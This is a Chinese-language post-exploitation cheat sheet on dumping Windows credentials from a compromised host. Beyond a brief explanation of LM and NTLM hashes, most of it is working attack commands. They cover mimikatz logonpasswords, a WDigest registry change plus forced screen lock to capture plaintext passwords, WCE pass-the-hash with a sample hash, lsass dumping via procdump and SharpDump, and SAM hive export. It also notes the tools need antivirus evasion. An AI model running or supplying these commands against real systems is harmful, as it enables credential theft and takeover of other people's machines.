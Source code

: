 ```yaml
---
title: 【后渗透】本机密码和散列值获取
---
```

## 本机密码和散列值获取
## LM Hash和NTML Hash

Windows操作系统中的密码由两部分加密组成，即`LM Hash`和`NTML Hash`。

LM Hash（LAN Manager Hash），本质为DES加密，密码不足14位用`0`补全。

自`Server 2003`之后，Windows的认证方式均为NTML Hash。

自`Server 2008`开始默认禁用`LM Hash`， 当密码超过14位时候会采用NTLM加密

如果抓取的`LM Hash`为 `AAD3B435B51404EEAAD3B435B51404EE`，说明密码为空或`LM Hash`被禁用。

|      | 2003 | win7 | 2008 | 2012 |
| :--- | :--- | :--- | :--- | :--- |
| LM   | √    |      |      |      |
| NTLM | √    | √    | √    | √    |

 前面三个，当密码超过14位时候会采用NTLM加密。

**Hash一般存储在两个地方**

> **SAM文件**：存储在本机，对应本地用户
>
> **NTDS.DIT文件**：存储在域控上，对应域用户

## 获取凭证的快捷路径

翻数据库配置文件找数据库密码

翻用户桌面，可能存在服务器密码信息，甚至其它服务器

找内部wiki手册，邮箱等东西可能存在服务器IP和密码信息

## Server 2012 抓明文密码

**Server 08 及之前的版本可以直接抓明文密码**

将mimikatz上传到目标主机（需要免杀），并且要SYSTEM权限。

```bash
#读取散列值和明文密码
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" exit #123
```

 **Server 2012 抓取明文密码：**

> 手工修改注册表 + 强制锁屏 + 等待目标系统管理员重新登录+导出Hash+本地mimikatz抓明文

```bash
#修改注册表来让Wdigest Auth保存明文口令
reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

#恢复
reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

强制锁屏

```bash
rundll32.exe user32.dll,LockWorkStation
```

## WCE抓明文密码

 **WCE**会被杀软干掉

```bash
#抓系统管理员明文密码
wce.exe -w

#抓hash，列出登录的会话和NTLM凭据
wce.exe -l

#重点，在无法破解目标hash明文的情况下可用hash注入
wce.exe -s 目标用户名:目标域名或IP:LM-HASH:NT-HASHwce.exe -s Administrator:192.168.2.130:F0D412BD764FFE81AAD3B435B51404EE:209C6174DA490CAEB422F3FA5A7AE634
```

> hash注入的原理是，将我们预备好的目标机器的本地或者是域用户hash注入到本地的认证进程`lsass.exe`中去
>
> 使得本地在使用`ipc`登录目标机器的时候就如同自己登录自己的机器一样获得权限
>
> 需要支持受限管理员模式，Server 2012-r2后默认支持受限管理员模式

## Sharpdump+ mimikatz本地读取

需要.NET 3.5版本框架

下载地址：https://github.com/GhostPack/SharpDump 

Dump 的文件默认是 bin 后缀，拖到本地机器把 bin 重命名为 zip，然后解压徂徕再丢给 mimikatz

```bash
mimikatz.exe “sekurlsa::minidump debug45” “sekurlsa::logonPasswords full” “exit”
```

## 注册表 + mimikatz本地读取

**（1）导出SAM和System文件**

 Win2000和XP需要先提到`SYSTEM`，03开始直接可以reg save

```bash
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security security.hive
```

**（2）mimikatz本地读取 NTML Hash**

> mimikatz可以从内存中提取明文编码、散列值、PIN和Kerberos票据；
>
> 还可以用来执行哈希传递、票据传递和构建黄金票据（Golden Ticket）。

```bash
#将导出的文件和mimikatz放到同一目录
mimikatz.exe lsadump::sam /sam:sam.hive /system:system.hive /security:security.hive
```

## Procdump + mimikatz本地读取

**（1） Procdump dump lsass（管理员权限下运行 ）**

```bash
#32位系统
procdump.exe -accepteula -ma lsass.exe lsass.dmp

#64位系统
procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
```

**（2）mimikatz本地读取hash**

```bash
#放到同一目录
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```
